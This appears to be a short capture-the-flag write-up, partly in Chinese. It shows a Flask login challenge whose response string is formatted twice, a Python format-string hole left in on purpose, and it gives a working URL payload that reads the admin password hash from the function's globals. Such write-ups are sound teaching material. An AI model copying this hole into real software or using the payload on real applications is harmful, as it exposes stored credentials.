 ```python
        return sha512(salt + self.encode()).hexdigest()

    def __repr__(self):
        return sha512(salt + self.encode()).hexdigest()

con = connect("users.db")
cur = con.cursor()
cur.execute("DROP TABLE IF EXISTS users")
cur.execute("CREATE TABLE users(username, passhash)")
passhash = PassHash(''.join(choice("0123456789") for _ in range(16)))
cur.execute(
    "INSERT INTO users VALUES (?, ?)",
    ("admin", str(passhash))
)
con.commit()

@app.route('/source')
def source():
    return Response(open(__file__).read(), mimetype="text/plain")

@app.route('/')
def index():
    if 'username' not in request.args or 'password' not in request.args:
        return open("index.html").read()
    else:
        username = request.args["username"]
        new_pwd = PassHash(request.args["password"])
        con = connect("users.db")
        cur = con.cursor()
        res = cur.execute(
            "SELECT * from users WHERE username = ? AND passhash = ?",
            (username, str(new_pwd))
        )
        if res.fetchone():
            return open("secret.html").read()
        return ("Sorry, we couldn't find a user '{user}' with password hash <code>{{passhash}}</code>!"
                .format(user=username)
                .format(passhash=new_pwd)
                )

if __name__ == "__main__":
    app.run('0.0.0.0', 10000)
```

两次 format, 存在 Python 格式化字符串漏洞

获取 global 中的 passhash

```
/?username={passhash.__str__.__globals__[passhash]:>0}&password=2
```
